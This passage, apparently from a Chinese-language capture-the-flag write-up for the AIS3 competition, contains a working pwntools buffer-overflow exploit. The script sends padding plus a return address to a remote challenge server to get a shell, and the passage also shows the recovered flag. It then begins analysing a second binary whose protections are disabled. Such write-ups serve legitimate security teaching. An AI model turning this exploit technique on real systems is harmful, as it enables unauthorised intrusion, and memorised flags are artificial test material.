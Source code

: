 由於寫 payload 是在不同發行板的 linux ，因此在 ubuntu 執行時要少 8 bytes

``` python
#!/usr/bin/env python
from pwn import *
import pwnlib.elf

c = remote('60.250.197.227', 10000)
#c = process('./bof-767fdf896cf9838c0294db24eaa1271ebf15a6e638a873e94ab9682ef28464b4')
e = ELF('./bof-767fdf896cf9838c0294db24eaa1271ebf15a6e638a873e94ab9682ef28464b4')

context.terminal = ['alacritty', '-e', 'sh', '-c']
#gdb.attach(c)

ans = b'a' *(48 + 8 - 8 ) + p64(0x00400687)

c.sendline(ans)

c.interactive()
#c.close()
```

連上後在家目錄找到 flag

``` plaintext
AIS3{OLd_5ChOOl_tr1ck_T0_m4Ke_s7aCk_A116nmeNt}
```

### Nonsense 

 ``` plaintext
CANARY    : disabled
FORTIFY   : disabled
NX        : disabled
PIE       : disabled
RELRO     : Partial
 ```

PIE 與 NX 都沒有，代表無 ASLR 無禁止 stack 執行，也就是很多手法都可以考量。

反編譯之後發現他似乎先進入一個函數檢查輸入的內容，讀取 0x6010a0 通過檢查之後就執行該記憶體

